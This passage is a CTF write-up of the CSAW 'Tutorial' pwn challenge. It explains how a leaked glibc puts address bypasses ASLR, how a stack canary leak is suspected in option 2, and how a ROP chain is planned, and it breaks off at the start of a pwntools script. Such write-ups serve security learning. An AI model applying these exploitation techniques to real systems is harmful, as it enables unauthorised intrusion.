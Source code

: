 ```yaml
---
value: 200
category: Pwn
author: SneakyNachos
---
```


# Tutorial

Ok sport, now that you have had your Warmup, maybe you want to checkout the Tutorial.

`nc pwn.chal.csaw.io 8002`

# Solution

Write up by: SneakyNachos

This one I decided later on to redo and just go all out with the rop chain 
out of boredom.

After setting up the service on a remote vm with the same libc I decided to 
check what the output was.

	$ nc 192.168.56.102 54321
	-Tutorial-
	1.Manual
	2.Practice
	3.Quit
	>

After typing "1" a reference is dumped
	
	>1
	Reference:0x7f5635853860
	-Tutorial-
	1.Manual
	2.Practice
	3.Quit
	>


Looking into the binary this location seems to be a dump of the glibc's puts
function location. This will allow us to bypass ASLR.

After typing "2" it seems they just want a payload. Examining further into the 
defenses the binary also has the stack canary on and DEP as well.

So that means they must have a cookie dump in option '2'. My guess was that 
they didn't append the null byte correctly and the dumped the stack in a print.

Here's a test script to see if that hunch was correct. I also went ahead and
added the glibc address extraction to the script as well.

	from pwn import *
	def main():
		#Test Connection
		HOST = "192.168.56.102"
		PORT = int(raw_input("PORT:").rstrip("\n"))
		